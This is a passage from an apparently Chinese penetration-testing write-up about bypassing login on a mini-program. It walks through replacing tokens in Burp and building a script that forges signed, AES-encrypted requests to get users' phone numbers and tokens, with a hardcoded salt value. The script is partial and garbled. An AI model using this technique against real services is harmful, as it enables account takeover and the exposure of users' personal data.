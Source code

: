 ![图片.png](https://shs3.b.qianxin.com/attack_forum/2024/04/attach-a2c0248b5b1ab9c1f1d57089c3a9fb56642f746c.png)  
获得token

burp替换token尝试登入

![图片.png](https://shs3.b.qianxin.com/attack_forum/2024/04/attach-91eaf3f9fe46566d3fc4bc54b1735ff97fb82f0d.png)  
刷新小程序

![图片.png](https://shs3.b.qianxin.com/attack_forum/2024/04/attach-02802cc5d859aa6d68faf102f78f6534bc884c69.png)

登入成功

开始构造脚本

userid(sigin,timestamp)获得手机号--&gt;

手机号aes加密+userid(sigin,timestamp)获得token

burp替换token完成登入

```php
import execjs  
import requests  
import json  
import binascii  
from Crypto.Cipher import AES  
import base64  
from Crypto.Util.Padding import pad, unpad  

md5\_js\="""  
......  
function AES\_Encrypt(word) {  
    var srcs = CryptoJS.enc.Utf8.parse(word);  
    //console.log(srcs);  
    var aaa=CryptoJS.enc.Hex.stringify(srcs);  
    return aaa.toString();  
}  
{1}  
function yierjiami(ra) {  
{1}  
const jsonStr = ra;  
{1}  
const jsonObj = JSON.parse(jsonStr);  
jsonObj.saltValue = "c3Kx$0i67sds#";  
jsonObj.timestamp = Date.now().toString();  
//jsonObj.timestamp = "1703606967481"  
{1}  
const sortedJsonObj = sortObjectKeys(jsonObj);  
const sortedJsonStr = JSON.stringify(sortedJsonObj);  
{1}  
console.log(sortedJsonStr);  
var aaa=AES\_Encrypt(sortedJsonStr);  
{1}  
return \[r(aaa).toUpperCase(),jsonObj.timestamp\];  
{1}  
}  
"""  

def aes\_ecb\_encrypt\_hex(plaintext, key):  
    cipher \= AES.new(key, AES.MODE\_ECB)  
    padded\_plaintext \= pad(plaintext.encode(), AES.block\_size)  
    ciphertext \= cipher.encrypt(padded\_plaintext)  
    return binascii.hexlify(ciphertext).decode()  

id\=111  
content \= '{"id":"%s"}'%(id)  
```